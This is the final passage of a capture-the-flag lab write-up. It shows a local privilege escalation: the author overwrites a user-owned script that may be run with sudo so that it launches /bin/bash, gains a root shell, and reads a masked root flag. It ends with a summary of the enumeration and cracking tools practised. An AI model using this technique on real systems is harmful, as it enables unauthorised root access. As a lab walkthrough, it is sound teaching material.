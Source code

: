 We are owner of `backup.sh`... We just need to make it writable by using `chmod +w backup.sh`. After that, we can put a simple command to open a shell on it :  
```
alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
alex@ubuntu:/etc/mp3backups$ echo '#!/bin/bash' > backup.sh
alex@ubuntu:/etc/mp3backups$ echo '/bin/bash' >> backup.sh
alex@ubuntu:/etc/mp3backups$ cat backup.sh 
#!/bin/bash
/bin/bash
```

Now, we can use `sudo ./backup.sh` to get a root shell :  
```
alex@ubuntu:/etc/mp3backups$ sudo ./backup.sh 
root@ubuntu:/etc/mp3backups#
```

We are root ! Let's get the root flag :  
```
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt 
flag{******************************}
```

## Conclusion

In this room, we have practiced : 
- Ports/Services enumeration using [nmap](https://nmap.org/)
- Website enumeration using [gobuster](https://github.com/OJ/gobuster)
- Hash cracking using [john](https://www.openwall.com/john/doc/)
- Basic linux enumeration
- Basic privilege escalation

And we also learned to use Borg Backup. Thanks for this room ! And thanks for reading my write ups !

